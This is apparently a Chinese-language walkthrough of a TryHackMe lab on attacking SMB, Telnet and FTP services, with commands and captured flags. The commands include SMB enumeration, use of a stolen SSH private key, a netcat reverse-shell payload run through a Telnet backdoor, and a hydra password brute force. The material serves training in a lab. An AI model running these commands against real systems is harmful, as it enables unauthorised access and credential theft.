# ☑️ Network Services(网络服务)

TryHackMe实验房间链接：[https://tryhackme.com/room/networkservices](https://tryhackme.com/room/networkservices)

## SMB服务简介

**什么是SMB？**

SMB是指服务器消息块协议（Server Message Block Protocol）--一种客户端-服务器通信协议，用于共享对网络上的文件、打印机、串行端口和其他资源的访问。

服务器使文件系统和其他资源（打印机、命名管道、API......等）可供网络上的客户端使用，虽然客户端计算机可能有自己的硬盘以便存储资源，但它们有时候确实需要访问服务器上的共享文件系统和打印机；在这个过程中我们需要用到SMB协议，SMB 协议是一种响应-请求协议，它可以在客户端和服务器之间传输多条消息以建立连接，其中的客户端将使用 TCP/IP（实际上是 RFC1001 和 RFC1002 中指定的 TCP/IP 上的 NetBIOS）、NetBEUI 或 IPX/SPX 连接到服务器。

概念参考：[https://www.techtarget.com/searchnetworking/definition/Server-Message-Block-Protocol](https://www.techtarget.com/searchnetworking/definition/Server-Message-Block-Protocol)

**SMB如何工作？**

<figure><figcaption></figcaption></figure>

一旦建立连接，客户端就可以向服务器发送命令 (SMB)，以允许它们访问共享、打开文件、读取和写入文件，并且往往可以执行你想对文件系统执行的所有操作；对于 SMB，这些事情都是通过网络完成的。

**SMB服务由什么运行？**

自 Windows 95 以来的 Microsoft Windows 操作系统都能提供客户端和服务器的 SMB 协议支持；而在Linux系统中，常用的SMB服务器是Samba，它是一种支持 SMB 协议的开源服务器，是针对 Unix 系统发布的。

### **答题**

阅读本小节内容，并回答以下问题。

<figure><figcaption></figcaption></figure>

## 枚举SMB信息

**枚举**

枚举是收集有关目标的信息以找到潜在的攻击向量并帮助我们完成漏洞利用的过程。

此过程对于攻击的成功至关重要，因为将时间浪费在无效的漏洞利用或者可能导致系统崩溃的漏洞利用上会浪费我们很多精力；枚举可用于收集用户名、密码、网络信息、主机名、应用程序数据、服务或者其他任何可能对攻击者有价值的信息。

**关于SMB的枚举**

通常而言，服务器上可能会有一些 SMB 共享驱动器，这些SMB共享可以被连接并能用于查看、传输文件，而对于寻求发现敏感信息的攻击者来说，枚举SMB信息通常会是一个很好的行动起点——你有时会对这些SMB共享中所包含的内容感到惊讶。

**端口扫描**

枚举的第一步是针对目标进行端口扫描，端口扫描可以尽可能多地找出目标机器上关于服务、应用程序、结构和操作系统的信息。

**使用Enum4Linux**

Enum4linux是一个用于在 Windows 和 Linux 系统上枚举 SMB 共享的工具，它可以轻松快速地从与 SMB 相关的目标中提取信息；在 Parrot OS 和 Kali OS上会默认安装Enum4linux工具，如果你需要进行手动安装，可以访问Enum4Linux的 github 项目地址： https://github.com/CiscoCXSecurity/enum4linux 。

Enum4Linux 的语法非常简单：`enum4linux [options] ip`

Enum4linux的常用参数选项：

```bash
TAG            FUNCTION

-U             get userlist  获取用户名单
-M             get machine list  获取机器名单
-N             get namelist dump (different from -U and-M)  获取名单转储信息
-S             get sharelist 获取共享列表
-P             get password policy information 获取密码策略信息
-G             get group and member list 获得组和成员名单
-a             all of the above (full basic enumeration) 以上所有(执行一个完整的基本SMB枚举)
```

### **答题**

阅读本小节内容，并回答以下问题。

_注意：在本文对应的Tryhackme实验房间页面--先部署本小节对应的虚拟靶机再尝试回答相关的问题。_

使用nmap针对靶机进行端口扫描：

```bash
nmap -sC -sV -T4 10.10.92.190
```

<figure><figcaption></figcaption></figure>

> 靶机打开了3个端口；SMB服务运行在139/445端口；

使用enum4linux工具枚举SMB：

```bash
enum4linux -a 10.10.92.190
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

> 工作组名称：WORKGROUP
>
> 机器名称为：POLOSMB
>
> 操作系统版本：6.1
>
> 关键的Share文件夹是：profiles
>
> 枚举得到的有效账户名称为：cactus

<figure><figcaption></figcaption></figure>

## 对SMB服务进行利用

**关于SMB的利用**

虽然存在 [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/) 等SMB漏洞能够允许我们利用 SMB 来完成远程代码执行操作，但我们更有可能遇到下面这种情况：由于系统配置错误而让我们得以进入目标系统；在本小节中，我们将尝试利用“SMB共享的匿名访问”——这是常见的SMB服务错误配置，有时能让我们获得用于访问目标 shell 的敏感信息。

为了利用“SMB共享的匿名访问”，我们需要在SMB枚举阶段获取以下信息：

* SMB 共享的位置。
* 关键SMB共享的名称。

**SMBClient**

因为我们要尝试访问 SMB 共享，所以我们需要一个SMB客户端来访问服务器上的资源，在这里我们选择使用 SMBClient，它是默认的 samba 套件的一部分；该工具在 Kali OS 和 Parrot OS上是默认可用的，在以下文档中可查找使用方法：[https://www.samba.org/samba/docs/current/man-html/smbclient.1.html](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)

我们可以使用以下语法远程访问 SMB 共享：`smbclient //[IP]/[SHARE]`

其他可能需要添加的参数：

* `-U` \[name] : to specify the user 指定用户（大写英文字母U）
* `-p` \[port] : to specify the port 指定端口

### **答题**

阅读本小节内容，并回答以下问题。

_注意：在本文对应的Tryhackme实验房间页面--先部署本小节对应的虚拟靶机再尝试回答相关的问题。_

本小节所需部署的虚拟靶机和上一小节是同一个；基于上一小节的操作，我们得到以下可用信息：

> 通过枚举SMB，找到的关键SMB共享的名称为：profiles
>
> 通过枚举SMB，找到的有效账户名称为：cactus

尝试进行SMB匿名访问：

```bash
smbclient //10.10.92.190/profiles -U anonymous -p 445 #此处的"-p 445"可以省略
#登陆后可以输入 help 命令或者 ? 命令，以查看有哪些可用命令：如ls cd more dir get 等......
#如果想查看某个txt文件或者其他有内容的文件，请使用more命令（记得在文件名上添加英文双引号）
help
ls
more "Working From Home Information.txt" 
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

> SMB匿名访问成功；SMB共享profiles属于 John Cactus 并且John Cactus所在的公司还为他配置了ssh服务。

尝试在SMB共享文件夹中寻找ssh密钥：

```bash
#查看.ssh文件夹：id_rsa文件为私钥、id_rsa.pub文件为公钥
#在id_rsa.pub公钥文件的内容末尾，可能会注明和密钥相关的ssh用户名称
#在SMB连接中，使用get命令下载文件
cd .ssh
ls
get id_rsa
```

<figure><figcaption></figcaption></figure>

> 查找SMB共享中的 .ssh目录，最终发现了ssh密钥文件：id\_rsa。

在攻击机中使用密钥进行SSH登陆并查看smb.txt文件内容：

```bash
#下载密钥文件到本地后，更改密钥文件的权限为："600"--表示文件拥有者可进行读写操作。
chmod 600 id_rsa
#然后使用以下命令，通过ssh进行用户登录（指定使用私钥文件登录）
ssh -i id_rsa  cactus@10.10.92.190

#用户的账号名称可通过 enum4linux -a [IP] 枚举SMB信息获取（在上一小节中已成功获取该信息）
#在id_rsa.pub公钥文件的内容末尾，可能会注明和密钥相关的ssh用户名称（这需要我们通过SMB共享找到id_rsa.pub文件）
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

> 在攻击机上使用从目标机的SMB共享中获取的id\_rsa文件 进行ssh登录；最后找到的smb.txt文件的内容为：THM{smb\_is\_fun\_eh?} 。

<figure><figcaption></figcaption></figure>

_参考：chmod命令使用教程_ [_https://www.runoob.com/linux/linux-comm-chmod.html_](https://www.runoob.com/linux/linux-comm-chmod.html)

## Telnet服务简介

**什么是Telnet？**

Telnet 是一种应用程序协议，它允许你使用 telnet 客户端连接到托管 telnet 服务器的远程计算机并在其上执行命令；当telnet 客户端与服务器成功建立连接之后，此时的telnet 客户端将成为一个虚拟终端——以允许你与远程主机进行交互。

<figure><figcaption></figcaption></figure>

**Telnet的替代品**

Telnet 以明文形式发送所有消息，没有特定的安全机制，因此，在许多应用程序和服务中，Telnet 功能的大多数实现已被 SSH 所取代。

**Telnet 是如何工作的？**

用户想使用 Telnet 协议连接到服务器，只需要在命令提示符环境中输入“`telnet`”命令即可，然后，用户可以在 telnet 提示符下使用特定的 telnet 命令在远程服务器上执行命令；你可以使用以下语法连接到 telnet 服务器：“`telnet [ip] [port]`”

### **答题**

阅读本小节内容，并回答以下问题。

<figure><figcaption></figcaption></figure>

## 枚举Telnet信息

**关于telnet的枚举**

我们已经了解了关键信息的枚举在利用错误配置的网络服务方面的作用，然而，可能很容易被利用的漏洞并不总是会突然出现在我们面前，出于这个原因，我们在枚举网络服务时，需要更加彻底一些——虽然telnet的功能在慢慢被ssh替代，但是我们还是有必要对目标机的telnet服务进行信息枚举。

**端口扫描**

使用 nmap 扫描机器，以尽可能多地找出有关目标机器的服务、应用程序、结构和操作系统的信息。

### **答题**

阅读本小节内容，并回答以下问题。

使用nmap进行端口扫描

_tips：如果本地kali机的nmap扫描效果不佳，可以选择使用Tryhackme所提供的AttackBox进行端口扫描。_

```bash
nmap -A -p- -T4 10.10.186.160
#-p- 针对目标机的全端口进行扫描
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

> 目标机上打开了一个端口：8012/tcp
>
> 由返回的标题信息可知：该端口上可能有一个backdoor 并且涉及Skidy用户。

<figure><figcaption></figcaption></figure>

## 对Telnet服务进行利用

**关于Telnet的利用**

Telnet 作为一种协议本身是不安全的，它缺乏加密处理过程，因此将通过明文发送所有通信消息，而且telnet在大多数情况下的访问控制效果不佳。

有一些可用于攻击 Telnet 客户端和服务器系统的 CVE漏洞，我们可以检查目标机的Telnet服务是否存在已知漏洞以进行漏洞利用（以下是几个在线CVE漏洞库）：

* [https://www.cvedetails.com/](https://www.cvedetails.com/)
* [https://cve.mitre.org/](https://cve.mitre.org/)
* [https://www.cve.org/](https://www.cve.org/)

CVE 是Common Vulnerabilities and Exposures的缩写，是公开披露的计算机安全漏洞列表；当有人提到 CVE 时，通常指的是分配给安全漏洞的 CVE ID 号。

除了CVE之外，你更有可能在 telnet 的配置方式或运行方式中发现它存在一些错误配置，从而允许我们利用目标机的Telnet服务。

**tips：**

经过上一小节的枚举阶段我们发现了以下信息：

* 目标机器上运行着一个隐蔽性很差的 telnet 服务。
* 该目标服务本身被标记为“backdoor-后门”。
* 有可能涉及用户“Skidy”。

通过这些信息，我们能够尝试访问目标机的 telnet 端口，并将以此为立足点在目标机器上获得完整的反向 shell。

**连接到Telnet服务器**

我们可以使用以下语法连接到 telnet 服务器：`telnet [ip] [port]`

**什么是反向shell？**

“shell”可以简单地被描述为一段代码或程序，它可用于在设备上获取代码或进行命令执行操作；反向 shell 是指 从目标机器回连到攻击机器然后进行通信 的一种 shell。

在攻击机需要设置一个侦听端口，攻击机能够在该端口上接收来自于目标机的连接，从而针对目标机器 实现代码或命令的执行操作。

<figure><figcaption></figcaption></figure>

### **答题**

阅读本小节内容，并回答以下问题。

连接到目标 telnet 端口：

```bash
telnet 10.10.186.160 8012
```

<figure><figcaption></figcaption></figure>

> 收到的欢迎信息为：SKIDY'S BACKDOOR.

<figure><figcaption></figcaption></figure>

另开终端，在本地机器上启动一个tcpdump侦听器：

```bash
sudo tcpdump ip proto \\icmp -i tun0
#选择侦听tun0网卡的流量
```

<figure><figcaption></figcaption></figure>

通过之前的 telnet 会话界面 使用命令“`ping [local_tun0_ip] -c 1`”来查看我们是否能够在目标机的telnet服务器上执行系统命令。

```bash
.RUN ping 10.11.15.168 -c 1
```

<figure><figcaption></figcaption></figure>

查看本地机上的tcpdump侦听器所侦听到的流量变化（以确认刚才的ping命令是否执行成功）。

<figure><figcaption></figcaption></figure>

> 我们能够在目标机的telnet服务器上执行系统命令

<figure><figcaption></figcaption></figure>

在本地攻击机上使用msfvenom 生成一个反向shell有效载荷：

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.11.15.168 lport=4444 R

#-p        有效负载类型
#lhost     我们的本地机IP地址
#lport     要侦听的端口（本地机上的端口）
#R         以原始格式(Raw)导出有效载荷
```

<figure><figcaption></figcaption></figure>

> 生成的反向shell有效载荷内容为：mkfifo /tmp/svqcho; nc 10.11.15.168 4444 0\</tmp/svqcho | /bin/sh >/tmp/svqcho 2>&1; rm /tmp/svqcho

在本地攻击机上启动netcat监听器：

```bash
nc -lvp 4444
```

<figure><figcaption></figcaption></figure>

在telnet会话中运行之前生成的反向shell有效载荷：

```bash
.RUN mkfifo /tmp/svqcho; nc 10.11.15.168 4444 0</tmp/svqcho | /bin/sh >/tmp/svqcho 2>&1; rm /tmp/svqcho
```

<figure><figcaption></figcaption></figure>

我们成功在本地机上获得一个shell，使用这个shell界面查看目标机上的flag.txt文件内容：

<figure><figcaption></figcaption></figure>

> flag.txt文件的内容为：THM{y0u\_g0t\_th3\_t3ln3t\_fl4g} 。

<figure><figcaption></figcaption></figure>

## FTP服务简介

**什么是FTP？**

顾名思义，文件传输协议 ( FTP ) 是一种允许通过网络进行远程文件传输的协议，它使用客户端-服务器(C/S)模型来执行此操作，并且会以一种非常有效的方式转发命令和数据。

**FTP是如何工作的？**

典型的 FTP 会话将使用两个通道进行工作：

* 命令（有时称为控制）通道
* 数据通道。

命令通道用于传输命令以及对这些命令的回复，而数据通道则用于传输数据。

FTP使用客户端-服务器(C/S)协议运行，客户端启动与服务器的连接，服务器验证用户所提供的任何登录凭据，最后尝试打开会话；当FTP会话打开时，用户可以通过FTP客户端在FTP服务器上执行FTP命令。

<figure><figcaption></figcaption></figure>

**FTP主动连接与被动连接**

FTP服务器支持单独的主动连接或单独的被动连接，也可以同时支持以上两种连接方式。

* 在主动 FTP 连接中，客户端会打开一个端口并进行监听，而服务器则需要主动连接到客户端上的端口。
* 在被动 FTP 连接中，服务器会打开一个端口并（被动）侦听，然后客户端将连接到服务器上的端口。

tips：将命令和数据分离到单独的通道是一种无需等待当前数据传输完成即可向服务器发送命令的方法；而如果两个通道（命令通道和数据通道）相互关联，你只能在数据传输的同时等待输入命令，这对于大文件传输或慢速互联网连接来说效率并不高。

**更多细节：**

我们可以在Internet Engineering Task Force网站上找到有关FTP的更多详细信息：

[https://www.ietf.org/rfc/rfc959.txt](https://www.ietf.org/rfc/rfc959.txt)

IETF 是众多标准机构之一，负责定义和规范互联网标准。

### **答题**

阅读本小节内容，并回答以下问题。

> FTP使用的是C/S通信模型，即：client-server
>
> 标准的FTP端口是：21端口
>
> FTP有两种连接方式：主动连接和被动连接

<figure><figcaption></figcaption></figure>

## 枚举FTP信息

为了枚举目标机上的FTP信息，我们需要先进行端口扫描，找到目标机上运行FTP服务所相关的端口号，然后我们将尝试进行FTP匿名登录，成功登录后，我们可以查看我们可以访问哪些文件，以及这些文件中是否包含了一些有助于我们开展进一步利用的敏感信息。

由于我们要登录到FTP服务器，因此我们需要确保攻击机系统上安装了一个FTP 客户端，在大多数 Linux 操作系统上应该默认会安装一个FTP客户端，例如 Kali OS 或 者Parrot OS；我们可以通过在本地机的终端中键入“ftp”来测试FTP客户端是否存在，如果看到一个提示--“ftp>”，那么说明当前的本地机系统上有一个能够工作的 FTP 客户端，如果没有得到提示消息，则需要我们使用命令“`sudo apt install ftp`”来安装一个FTP客户端。

**注意事项：**

一些易受攻击的 in.ftpd 版本服务器和其他一些 FTP 服务器变体对“cwd”命令会返回不同的响应，这可以被攻击者利用，我们可以在ftp身份验证之前发出一个cwd 命令，进而尝试发现有效的FTP用户帐户；此错误主要会在一些遗留系统中存在，但作为利用 FTP 的一种方式，值得我们去了解。

关于此漏洞的记录可在以下链接中找到：[https://www.exploit-db.com/exploits/20745](https://www.exploit-db.com/exploits/20745)

关于此漏洞的具体描述：Solaris 所带的in.ftpd没有正确考虑ftp用户登录之前执行某些命令的情况，当用户在登录进入系统之前尝试执行某些FTP命令，in.ftpd将会返回一些错误信息，这可能会给攻击者猜测目标系统中有效用户名的机会。

### **答题**

阅读本小节内容，并回答以下问题。

针对目标机器进行端口扫描：

```bash
nmap -sC -sV -T4 10.10.174.84
```

<figure><figcaption></figcaption></figure>

> 目标机器上开放了两个端口
>
> ftp服务在21端口上运行
>
> 目标机上所运行的FTP是：vsftpd

尝试进行ftp匿名登陆：

```bash
ftp 10.10.174.84 -p 21
anonymous
ls
get PUBLIC_NOTICE.txt -
#命令末尾加“-”可查看文件内容，不加“-”则会直接下载文件到攻击机上
```

<figure><figcaption></figcaption></figure>

> 匿名用户的FTP目录中的文件是：PUBLIC\_NOTICE.txt
>
> 查看PUBLIC\_NOTICE.txt文件内容，得到的有效用户名为：mike

<figure><figcaption></figcaption></figure>

## 对FTP服务进行利用

**关于FTP服务的利用**

与Telnet类似，当使用 FTP 时，命令和数据通道都是未加密的，通过这些通道发送的任何数据都可以被拦截和读取；由于 FTP 中的数据都将以明文形式发送，如果发生中间人攻击，那么攻击者就可能会获取到 通过FTP协议发送的任何内容（例如：明文密码）。

**tips：**

经过上一小节的枚举阶段我们发现了以下信息：

* 目标机器上有一个 FTP 服务器正在运行，相关的端口号为21。
* 我们已经知道了一个可能有效的用户名：mike。

基于这些信息，我们就可以尝试暴力破解 FTP 服务器的密码。

**Hydra**

Hydra 是一种非常快速的在线密码破解工具，可以对 50 多种协议进行快速字典攻击，包括 Telnet、RDP、SSH、FTP、HTTP、HTTPS、SMB、多种数据库等。

Hydra的GitHub项目地址如下：[https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

用于暴力破解ftp服务器密码的hydra命令将如下所示：

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV [machine IP] ftp

#SECTION                       FUNCTION 

#hydra                         启动hydra

#-t 4                          设置每个目标的并行连接数为4

#-l [user]                     用户名

#-P [path to dictionary]       用于暴力破解的密码字典文件的路径

#-vV                           将verose模式设置为非常详细，这将显示每次尝试的 login + pass 组合（verose模式--详细输出模式）

#[machine IP]                  目标机器的IP地址

#ftp / protocol                设置要进行暴力破解的相关协议
```

### **答题**

阅读本小节内容，并回答以下问题。

基于上一小节的枚举结果，我们已经知道了一个有效的FTP用户名(mike)；接下来我们将使用hydra工具 针对有效的ftp用户进行暴力破解--一旦破解成功，我们就能得到用户的FTP登录凭据。

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.174.84 ftp
```

<figure><figcaption></figcaption></figure>

> 破解得到的mike用户的密码为：password

使用暴力破解得到的密码登陆有效用户(mike)的ftp服务 并查看目标文件内容（`get fileName.txt -`）

```bash
ftp 10.10.174.84 -p 21
mike
password
ls
get ftp.txt -
```

<figure><figcaption></figcaption></figure>

> 目标文件内容为：THM{y0u\_g0t\_th3\_ftp\_fl4g} 。

<figure><figcaption></figcaption></figure>

## 知识扩展

请阅读以下参考文章：

* [https://gregit.medium.com/exploiting-simple-network-services-in-ctfs-ec8735be5eef](https://gregit.medium.com/exploiting-simple-network-services-in-ctfs-ec8735be5eef)
* [https://attack.mitre.org/techniques/T1210/](https://attack.mitre.org/techniques/T1210/)
* [https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/](https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/)
